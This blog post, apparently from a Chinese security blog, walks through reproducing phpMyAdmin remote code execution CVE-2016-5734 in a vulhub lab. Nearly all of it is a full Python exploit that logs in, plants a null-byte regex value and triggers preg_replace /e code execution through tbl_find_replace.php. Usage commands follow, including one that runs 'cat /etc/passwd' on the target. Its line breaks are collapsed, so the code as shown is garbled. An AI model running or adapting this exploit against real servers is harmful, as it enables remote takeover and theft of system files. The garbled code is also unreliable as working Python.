

# phpmyadmin 远程代码执行漏洞（CVE-2016-5734） - 笑花大王 - 博客园

> 原文：[`www.cnblogs.com/xhds/p/12579289.html`](https://www.cnblogs.com/xhds/p/12579289.html)

## 简介

**环境复现：**https://github.com/vulhub/vulhub

**线上平台:**榆林学院内可使用协会内部的网络安全实验平台

phpMyAdmin 是一套开源的、基于 Web 的 MySQL 数据库管理工具。

## 影响版本

phpmyadmin4.3.0-4.6.2 

## 代码审计

待更新....

## 漏洞利用

漏洞利用 py


```
#!/usr/bin/env python

"""cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
CVE: CVE-2016-5734
Author: https://twitter.com/iamsecurity
run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');" """

import requests import argparse import sys __author__ = "@iamsecurity"

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd if arguments.dbs:
        db = arguments.dbs else:
        db = "test" token = False
    custom_table = False if arguments.table:
        custom_table = True
        table = arguments.table else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd else:
        payload = "system('uname -a');" size = 32 s = requests.Session() # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500')); '''.format(table) # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    )) if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6 token = resp.text[token_place:token_place + 32] if token is False: print("Cannot get valid authorization token.")
        sys.exit(1) if custom_table is False:
        data = { "is_js_confirmed": "0", "db": db, "token": token, "pos": "0", "sql_query": sql, "sql_delimiter": ";", "show_query": "0", "fk_checks": "0", "SQL": "Go", "ajax_request": "true", "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies)) if resp.status_code == 200: if "success" in resp.json(): if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")] if "already exists" in error: print(error) else: print("ERROR: " + error)
                        sys.exit(1) # build exploit
    exploit = { "db": db, "table": table, "token": token, "goto": "sql.php", "find": "0/e\0", "replaceWith": payload, "columnIndex": "0", "useRegex": "on", "submit": "Go", "ajax_request": "true" }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    ) if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:] if len(result): print("result: " + result)
            sys.exit(0) print( "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp" )
        sys.exit(1)
```

View Code

```
python PhpMyAdmin_RCE.py -u root -p "root" http://192.168.52.129:8080 -c "system('id')"
```

```
python PhpMyAdmin_RCE.py -u root -p "root" http://192.168.52.129:8080 -c "system('cat /etc/passwd')"
```

